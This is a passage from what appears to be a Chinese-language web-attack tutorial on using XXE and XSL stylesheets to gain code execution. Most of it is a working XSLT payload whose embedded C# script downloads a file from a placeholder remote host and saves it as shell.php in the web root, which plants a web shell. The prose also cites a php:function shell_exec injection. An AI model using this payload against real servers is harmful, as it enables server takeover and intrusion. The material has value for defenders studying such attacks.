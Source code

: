 ![image.png](assets/1700812438-6a9629875933e45286d213037e427bf1.png)

## 2.6、XXE 写 shell

当服务器支持 XSL（可扩展样式表语言）时，就可以利用 XXE 漏洞来执行任意代码。在 XML 文档中引用一个恶意的 XSL 样式表，这个样式表可以包含任意的 XSL 命令，如<xsl:value-of select="php:function('shell\_exec', 'your command here')"/>。当服务器解析这个 XML 文档时，它将尝试应用这个 XSL 样式表，从而执行任意代码。

```php
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"/var/www/html/shell.php");
return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```
